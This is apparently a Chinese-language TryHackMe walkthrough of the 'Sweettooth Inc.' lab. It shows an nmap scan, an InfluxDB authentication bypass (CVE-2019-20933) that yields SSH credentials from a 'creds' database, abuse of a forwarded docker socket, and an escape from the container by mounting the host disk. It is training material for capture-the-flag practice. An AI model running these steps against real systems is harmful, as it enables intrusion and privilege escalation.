 ```yaml
---
sidebar_position: 122
tags: [Easy, Linux, docker]
title: "Sweettooth Inc."
description: "Sweettooth Inc."
sidebar_label: "Sweettooth Inc."
slug: /tryhackme/122
---
```


# Sweettooth Inc.

## 端口扫描

```bash
root@ip-10-10-107-220:~/sweettoothinc# nmap -sTCV -p 111,2222,8086,37603 --min-rate 1000 10.10.176.212

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-28 02:27 BST
Nmap scan report for ip-10-10-176-212.eu-west-1.compute.internal (10.10.176.212)
Host is up (0.00024s latency).

PORT      STATE SERVICE VERSION
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          37603/tcp  status
|_  100024  1          52370/udp  status
2222/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b0:ce:c9:21:65:89:94:52:76:48:ce:d8:c8:fc:d4:ec (DSA)
|   2048 7e:86:88:fe:42:4e:94:48:0a:aa:da:ab:34:61:3c:6e (RSA)
|   256 04:1c:82:f6:a6:74:53:c9:c4:6f:25:37:4c:bf:8b:a8 (ECDSA)
|_  256 49:4b:dc:e6:04:07:b6:d5:ab:c0:b0:a3:42:8e:87:b5 (EdDSA)
8086/tcp  open  http    InfluxDB http admin 1.3.0
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
37603/tcp open  status  1 (RPC #100024)
MAC Address: 02:A9:31:C5:57:65 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.41 seconds
```

## 8086

在其上我发现其版本所在, 查找相关的漏洞我发现一个身份验证绕过漏洞 [InfluxDB-Exploit-CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) 将其下载到本地我进行查看的时候我发现需要用户名, 但是按照其给出的默认用户名也不存在, 这时候我看了 wp 意识到可以查看一个 debug 页面, 从这里我得到了一个用户名并进行了利用

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141643.png)

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141643-1.png)

在其中进行搜索的时候我发现存在一个数据库名称叫 creds , 所以我进行了查看并从其中获取到一个 SSH 用户名和密码

```bash
[o5yY6yya@10.10.176.212/creds] $ SELECT * FROM ssh
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "pw",
                        "user"
                    ],
                    "name": "ssh",
                    "values": [
                        [
                            "2021-05-16T12:00:00Z",
                            7788764472,
                            "uzJk6Ry98d8C"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

获取到其信息之后我便进行了登陆

## 后渗透

### uzJk6Ry98d8C (docker)

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141643-2.png)

在登陆之后我对环境进行了查看, 发现其是一个 docker 容器

### uzJk6Ry98d8C(docker) —> root (docker)

查看容器的进程我发现一点奇怪的内容

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141643-3.png)

1. 这条命令告诉了我对于 docker.sock 文件有权限进行操作, 这也就意味着我们是一种暗docker组用户
2. 这条命令告诉我们将本地 8080 端口流量转发到 docker.sock 中,这不就是意味我们可以使用端口转发来实现 docker 命令

进行本地端口转发

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141643-4.png)

此时我们就可以按照 docker 提权的方式进行操作了, 我进行了一系列的信息收集操作

```bash
root@ip-10-10-107-220:~/sweettoothinc# docker -H tcp://127.0.0.1:1234 images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
sweettoothinc       latest              26a697c0d00f        2 years ago         359MB
influxdb            1.3.0               e1b5eda429c3        6 years ago         227MB
root@ip-10-10-107-220:~/sweettoothinc# docker -H tcp://127.0.0.1:1234 ps
CONTAINER ID        IMAGE                  COMMAND                  CREATED             STATUS              PORTS                                          NAMES
ffe946afd3ce        sweettoothinc:latest   "/bin/bash -c 'chmod\u2026"   About an hour ago   Up About an hour    0.0.0.0:8086->8086/tcp, 0.0.0.0:2222->22/tcp   sweettoothinc
```

本来我想的是挂载目录拿shell , 但是这两个镜像没法操作, 最后只能进行执行命令

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141643-5.png)

此时我们就获取到了容器的 Bash Shell

### root(docker) —> root (physics)

我们在此获取到的 Shell , 发现有一个系统磁盘

```bash
root@ffe946afd3ce:/# fdisk -l

Disk /dev/xvda: 16 GiB, 17179869184 bytes, 33554432 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0xa8257195

Device     Boot    Start      End  Sectors  Size Id Type
/dev/xvda1 *        2048 32088063 32086016 15.3G 83 Linux
/dev/xvda2      32090110 33552383  1462274  714M  5 Extended
/dev/xvda5      32090112 33552383  1462272  714M 82 Linux swap / Solaris
```

所以我们可以将其挂载到本地进行操作

```bash
root@ffe946afd3ce:/# mkdir /mnt/mydisk
root@ffe946afd3ce:/# mount  /dev/xvda1 /mnt/mydisk
root@ffe946afd3ce:/# cd /mnt/mydisk/
root@ffe946afd3ce:/mnt/mydisk# ls
bin  boot  dev	etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var	vmlinuz  vmlinuz.old
```